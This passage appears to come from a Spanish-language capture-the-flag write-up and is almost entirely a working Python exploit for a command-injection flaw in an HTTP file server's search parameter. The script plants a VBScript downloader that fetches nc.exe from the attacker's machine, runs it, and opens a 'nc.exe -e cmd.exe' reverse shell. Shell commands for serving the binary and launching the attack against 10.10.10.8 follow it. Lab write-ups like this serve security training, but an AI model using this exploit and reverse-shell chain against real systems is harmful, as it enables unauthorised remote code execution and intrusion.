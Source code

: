 ```python
#          You may need to run it multiple times for success!

import urllib2
import sys

try:
	def script_create():
		urllib2.urlopen("http://"+sys.argv[1]+":"+sys.argv[2]+"/?search=%00{.+"+save+".}")

	def execute_script():
		urllib2.urlopen("http://"+sys.argv[1]+":"+sys.argv[2]+"/?search=%00{.+"+exe+".}")

	def nc_run():
		urllib2.urlopen("http://"+sys.argv[1]+":"+sys.argv[2]+"/?search=%00{.+"+exe1+".}")

	ip_addr = "<tu-ip>" #local IP address
	local_port = "<puerto>" # Local Port number
	vbs = "C:\Users\Public\script.vbs|dim%20xHttp%3A%20Set%20xHttp%20%3D%20createobject(%22Microsoft.XMLHTTP%22)%0D%0Adim%20bStrm%3A%20Set%20bStrm%20%3D%20createobject(%22Adodb.Stream%22)%0D%0AxHttp.Open%20%22GET%22%2C%20%22http%3A%2F%2F"+ip_addr+"%2Fnc.exe%22%2C%20False%0D%0AxHttp.Send%0D%0A%0D%0Awith%20bStrm%0D%0A%20%20%20%20.type%20%3D%201%20%27%2F%2Fbinary%0D%0A%20%20%20%20.open%0D%0A%20%20%20%20.write%20xHttp.responseBody%0D%0A%20%20%20%20.savetofile%20%22C%3A%5CUsers%5CPublic%5Cnc.exe%22%2C%202%20%27%2F%2Foverwrite%0D%0Aend%20with"
	save= "save|" + vbs
	vbs2 = "cscript.exe%20C%3A%5CUsers%5CPublic%5Cscript.vbs"
	exe= "exec|"+vbs2
	vbs3 = "C%3A%5CUsers%5CPublic%5Cnc.exe%20-e%20cmd.exe%20"+ip_addr+"%20"+local_port
	exe1= "exec|"+vbs3
	script_create()
	execute_script()
	nc_run()
except:
	print """[.]Something went wrong..!
	Usage is :[.] python exploit.py <Target IP address>  <Target Port Number>
	Don't forgot to change the Local IP address and Port number on the script"""
```

* Antes de lanzar-lo tenemos que compartir el nc.exe con python

```shell
> locate nc.exe
/usr/share/SecLists/Web-Shells/FuzzDB/nc.exe
> cp /usr/share/SecLists/Web-Shells/FuzzDB/nc.exe .
> python3 -m http.server 80
```

* Lo lanzamos y recibimos la reverse shell

```shell
> python exploit.py
[.]Something went wrong..!
	Usage is :[.] python exploit.py <Target IP address>  <Target Port Number>
	Don't forgot to change the Local IP address and Port number on the script
> python exploit.py 10.10.10.8 80
```
